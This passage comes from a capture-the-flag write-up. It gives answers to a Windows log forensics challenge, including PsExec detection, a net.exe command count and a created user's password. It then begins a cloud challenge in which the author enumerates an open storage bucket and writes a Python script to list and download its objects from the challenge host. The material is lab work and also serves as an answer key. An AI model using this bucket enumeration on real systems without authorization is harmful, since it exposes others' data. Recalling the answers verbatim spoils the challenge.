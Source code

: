 `psexec` - based on remote service being added (Event ID 7045) and the random named binary 

**How many unique enumeration commands were run with net.exe? Answer just the integer value.**

`3` - Performed search with Chainsaw for **net.exe**. Then a Regex in CyberChef to establish the count- CommandLine: .*

**What password was successfully given to the user created?**

`Susan123!` - found alongside previous answer

# Malibu

Going off the hint _"What do you bring to the beach?"_, this connection is likely for a bucket in the cloud. Nmap offered little in the service or provider detail so I tried curl instead. Access denied on just the address provided by the instance, however, appending /bucket returned an XML with bucket info!

Next step, bucket object enumeration with some GPT assistance. So I made a script to parse the key and send requests for the data. 

```python
import requests
import xml.etree.ElementTree as ET

# URL of the bucket
url = "http://challenge.ctf.games:31611/bucket"

# Namespace in the XML file
namespace = {'s3': 'http://s3.amazonaws.com/doc/2006-03-01/'}

# Function to download a file from the bucket using its key
def download_file(key):
	file_url = f"http://challenge.ctf.games:31611/bucket/{key}"
	try:
		response = requests.get(file_url, timeout=10)  # Set a timeout of 10 seconds
		# Check if the request was successful
		if response.status_code == 200:
			return response.content  # Return the content of the downloaded file
		else:
			print(f"Failed to download: {key} - Status code: {response.status_code}")
	except requests.exceptions.Timeout:
		print(f"Timeout error while trying to download: {key}")
	except requests.exceptions.RequestException as e:
		print(f"Error occurred while downloading {key}: {e}")
	
	return None  # Return None if download fails

# Main function to get the XML and download the keys
def main():
	try:
		# Step 1: Make a request to get the XML
		response = requests.get(url, timeout=10)  # Set a timeout for the XML request
		response.raise_for_status()  # Raise an error if the request was unsuccessful
		
		# Step 2: Parse the XML content using ElementTree and handle namespace
		tree = ET.ElementTree(ET.fromstring(response.content))
		root = tree.getroot()

		# Step 3: Find all <Key> tags within the <Contents> tags, accounting for the namespace
		for content in root.findall('s3:Contents', namespace):
			key_elem = content.find('s3:Key', namespace)
			if key_elem is not None:
				key = key_elem.text
				print(f"Found key: {key}")
				
```